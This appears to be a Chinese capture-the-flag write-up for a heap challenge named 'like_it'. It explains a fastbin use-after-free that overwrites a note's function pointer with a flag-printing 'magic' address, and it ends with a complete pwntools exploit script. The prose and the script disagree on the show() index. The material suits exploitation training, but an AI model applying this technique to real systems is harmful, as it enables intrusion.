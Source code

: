 这道题比较少见，有个def函数，里面禁用了gdb的调试功能，导致无法调试，没办法展示调试过程了。。。

然后再把申请的两个chunk给free掉，此时4个chunk中的两个0x20，两个0x30(包含了chunk_head)全处于释放状态，且位于fastbin中的0x20和0x30链表中

```
delete(1)
delete(0)
```

这里释放的顺序需要注意下，由于fastbin是单项链表，遵循先进后出的原理，所以此时两个0x20大小的free_chunk状态是

chunk0->chunk1

接下来再把两个0x20大小的chunk申请回来，add函数中第一个已经帮我们申请了0x10(chunk0)，只要在申请0x10大小(chunk1)就能申请回来，那么此时的chunk0和chunk1都指向print所在位置，且chunk1可以让我们进行修改，把它改为magic，然后再调用show(1)，执行magic拿到flag

```
add(0x10,p64(magic))
show(1)
```

完整exp

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
delete(1)
delete(0)
add(0x10,p64(magic))
show(0)
p.interactive()
```

